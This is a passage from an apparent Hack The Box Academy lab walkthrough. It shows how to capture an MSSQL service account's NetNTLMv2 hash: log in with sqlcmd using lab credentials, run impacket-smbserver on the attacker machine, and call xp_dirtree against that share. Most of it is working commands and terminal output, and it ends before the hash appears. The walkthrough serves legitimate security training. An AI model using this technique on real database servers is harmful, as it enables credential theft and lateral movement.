 Subsequently, students need to use `sqlcmd` to connect to the SQL server on the spawned target machine with the credentials `htbduser:MSSQLAccess01!`:

Code: shell

```shell
sqlcmd -S STMIP -U htbdbuser
```

```
┌─[us-academy-1]─[10.10.14.138]─[htb-ac413848@htb-kytxdmh4gu]─[~]
└──╼ [★]$ sqlcmd -S 10.129.247.219 -U htbdbuser

Password:
1>
```

In another terminal tab on Pwnbox/`PMVPN`, students need to start an SMB share with `impacket-smbserver` and utilize the flag `-smb2support`:

Code: shell

```shell
sudo impacket-smbserver share ./ -smb2support
```

```
┌─[us-academy-1]─[10.10.14.4]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ sudo impacket-smbserver share ./ -smb2support
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Afterward, using the terminal tab with the `sqlcmd` connection, students need to steal the `MSSQL` service account hash using either `xp_subdirs` or `xp_dirtree`, the latter will be used:

Code: sql

```sql
EXEC master..xp_dirtree '\\PWNIP\share'
go
```

Code: sql

```sql
1> EXEC master..xp_dirtree '\\10.10.14.138\share'
2> go

(0 rows affected)
```

Students will receive the NetNTLMv2 hash of `mssqlsvc` on the terminal tab with `impacket-smbserver` running:
